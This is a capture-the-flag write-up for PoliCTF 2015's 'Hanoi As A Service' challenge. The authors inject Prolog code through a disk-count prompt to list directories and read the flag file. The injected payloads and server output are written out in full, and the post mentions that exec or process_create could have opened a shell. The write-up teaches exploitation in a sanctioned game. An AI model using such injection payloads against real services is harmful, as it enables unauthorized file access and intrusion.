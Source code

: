 ```yaml
---
layout: post
title: "Hanoi As A Service, Pwnable 50"
date: 2015-07-12
ctf: PoliCTF 2015
author: Abstract
---
```


## Hanoi As A Service, Pwnable 50

One of the easiest challenges of PoliCTF 2015 and the first we solved. The challenge's description pointed us to "haas.polictf.it 80". Netcating in we found a Tower of Hanoi server:

{% highlight php %}
host$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
3
* Move top disk from a to b
* Move top disk from a to c
* Move top disk from b to c
* Move top disk from a to b
* Move top disk from c to a
* Move top disk from c to b
* Move top disk from a to b
{% endhighlight %}


Can we get an error? Let's try '-1':

{% highlight php %}
host$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
-1
ERROR: Prolog initialisation failed:
ERROR: Out of local stack
{% endhighlight %}

Ah! Prolog, I knew there was a point to studying it back in college. Can we inject some code?

{% highlight php %}
host:john-pastry-shop tpc$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
1),write('hello world'
* Move top disk from a to b
hello world
{% endhighlight %}

So we can inject commands.  Next we googled for any and all Prolog commands that might be useful. '1),listing,write(\'hello\'' displays the entire prolog database, but there is nothing really useful there. Instead we can have a look at the files using: '1),directory_files({dir},X),write(X', until we find the flag:

{% highlight php %}
host$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
1),directory_files('home/ctf/haas',X),write(X
* Move top disk from a to b
[haas-proxy.py,..,jhknsjdfhef_flag_here,haas,.]
{% endhighlight %}

Now we know were the flag is we can print off the ascii: 

{% highlight php %}
host:john-pastry-shop tpc$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
1),open('/home/ctf/haas/jhknsjdfhef_flag_here',read,Str),read_line_to_codes(Str,X),write(X
* Move top disk from a to b
[102,108,97,103,123,80,114,48,103,114,97,109,109,49,110,103,95,105,110,95,108,48,103,49,99,95,49,115,95,99,48,48,108,125]
{% endhighlight %}

which [https://paulschou.com/tools/xlate/](https://paulschou.com/tools/xlate/) tell us encodes: 'flag{Pr0gramm1ng_in_l0g1c_1s_c00l}'.

Executing shell commands or even opening a shell would have been possible with Prologs 'exec' or 'process_create' commands, but that seemed like overkill in this situation.


